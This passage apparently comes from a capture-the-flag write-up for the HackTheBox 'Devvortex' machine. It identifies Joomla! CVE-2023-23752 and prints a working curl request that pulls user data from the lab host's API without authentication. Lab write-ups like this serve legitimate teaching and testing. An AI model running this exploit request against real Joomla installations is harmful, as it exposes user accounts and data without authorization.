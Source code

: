 We can **search for vulnerabilities in Google** for this Joomla! version, just to find **CVE-2023-23752**, which is very easy to exploit, just **two requests to an API**:

```bash
curl http://dev.devvortex.htb/api/index.php/v1/users?public=true | jq
```

![](/assets/Devvortex/7.png)
<br />
<br />
<br />
